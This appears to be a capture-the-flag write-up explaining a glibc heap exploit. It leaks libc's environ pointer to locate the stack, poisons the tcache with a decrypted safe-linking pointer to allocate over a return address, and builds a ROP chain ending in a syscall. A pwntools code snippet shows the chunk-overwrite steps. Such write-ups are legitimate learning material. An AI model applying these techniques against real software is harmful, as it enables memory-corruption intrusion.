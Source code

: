 # ROPing with no stack BOF
I love ROP chain's, especially with libc leaked, you can do almost anything.
the problem is, right now we only have a pointer to libc, not the stack.
can we change that?

Introducing..... the environ variable! (this is what I was leaking above)
the environ variable in libc contains a pointer the environment variables for the process, which 
just so happens to be on the stack!

It also is in a relatively static location, allowing for deterministic offset calculation

I chose to use this by mallocing a chunk right on top of the return address for the create function call that 
malloc'ed it.

by doing this I could us up to 12 ROP gadgets!! although the way mine ended up working out, I only allocated
enough space for 10. for more I would have needed to change the way my script works quite a bit.

10 is more than enough anyways!

### code
similar to above, this time we want to write to the stack
```python
delete_rune(r,p64(39)[:-1])
delete_rune(r,p64(38)[:-1])
edit_rune(r, p64(37)[:-1], '\x3f\x00\x01', "A"*0x53+"CHEF")

#leak the pointer so I can properly overwrite the next pointer in the tchace
new_cipher = parse_leak(r, '\x3f\x00\x01')
plain_ptr, key = decrypt_ptr(new_cipher)

log.info("2nd ptr: {}".format(hex(plain_ptr)))

edit_rune(r, '\x3f\x00\x01', '\x3f\x00\x02', "Z"*0x50+ p64(0x51)+p64(stack_write ^ key))

create_rune(r, p64(41)[:-1], 0x50, 'Y')
```

## something else interesting...
Usually, with the challenges I like to call a one_gadget. They are perticuarly handy with rop chains
as you usually just need to pop null into some registers and call the gadget

However, with this challenge you can't!
I'm not sure if it is a new feature of libc, or if it is custom configured, but when I tried to call the one gadget
I got an error that `file execvpe.c not found`. So, I had to think a bit harder

## the final chain
My final chain was quite simple, since there is a gadget to pop rdx, and a syscall gadget. I just manually populated the registers with 4 different pop $ calls, and then ended with a syscall! 

